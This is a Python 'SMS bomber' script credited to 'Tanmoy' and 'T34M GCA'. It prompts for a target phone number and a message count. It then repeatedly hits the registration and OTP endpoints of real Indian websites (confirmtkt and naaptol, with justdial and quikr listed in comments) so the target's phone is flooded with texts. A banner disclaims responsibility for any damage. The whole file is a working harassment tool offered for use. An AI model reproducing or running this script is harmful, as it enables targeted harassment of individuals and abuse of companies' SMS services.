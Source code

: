 # tanmoy
from urllib.request import Request,urlopen
from urllib.parse import urlencode,quote_plus
import platform
import os
import time
import urllib
import urllib.request
import http.cookiejar

def banner():
    if platform.system().lower()=="windows":
        os.system("cls")
    else:
        os.system("clear")
    print("""

  /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$ 
 /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$
| $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/
 \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$
 /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$
 \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/
                                                                                                                                                                                                    
                                   By : Tanmoy
                                With <3 of T34M GCA                                                                                                  
    Note : I won't be responsible for any damage caused by this script, Use at your own risk
""")
#http://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=

#http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

#http://www.quikr.com/SignIn?aj=1&for=send_otp&user=

def send(num, counter, slep):
    url1 = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile="]
    #url="https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile="
    data={"phone":num}
    x=y=0
    for y in range(int(counter)):
        for x in url1:
            banner()
            print("Target Number          : ", num)
            print("Number of Message Sent : ", y+1)
            result_url=str(x)+num
            resp1=Request(result_url)
            urlopen(resp1)
            time.sleep(slep)        

banner()
send(input("Enter Target Number : "), input("Enter Number of Messages : "), 1)
